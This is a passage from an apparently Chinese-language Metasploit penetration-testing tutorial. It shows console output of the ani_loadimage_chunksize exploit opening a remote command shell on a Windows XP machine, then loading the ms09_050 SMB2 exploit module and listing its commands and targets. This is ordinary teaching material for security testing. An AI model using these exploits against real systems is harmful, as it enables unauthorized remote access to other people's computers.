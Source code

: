 ```shell
[*]  Local IP: http://192.168.1.5:8080/
[*] Server started.
msf exploit(ani_loadimage_chunksize) >
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending HTML page to 192.168.1.100:1077...
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending Windows ANI LoadAniIcon() Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
[*] Sending stage (240 bytes)
[*] Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
[*] Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

#### 渗透测试过程

使用渗透模块一般有以下几个步骤：

##### 加载某个渗透模块.

例如：
```
msf > use  exploit/windows/smb/ms09_050_smb2_negotiate_func_index
msf exploit(ms09_050_smb2_negotiate_func_index) > help
...snip...
Exploit Commands
================

    Command       Description
    -------       -----------
    check         Check to see if a target is vulnerable
    exploit       Launch an exploit attempt
    pry           Open a Pry session on the current module
    rcheck        Reloads the module and checks if the target is vulnerable
    reload        Just reloads the module
    rerun         Alias for rexploit
    rexploit      Reloads the module and launches an exploit attempt
    run           Alias for exploit

msf exploit(ms09_050_smb2_negotiate_func_index) >
show
Using an exploit also adds more options to the show command.

MSF Exploit Targets
msf exploit(ms09_050_smb2_negotiate_func_index) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows Vista SP1/SP2 and Server 2008 (x86)
```
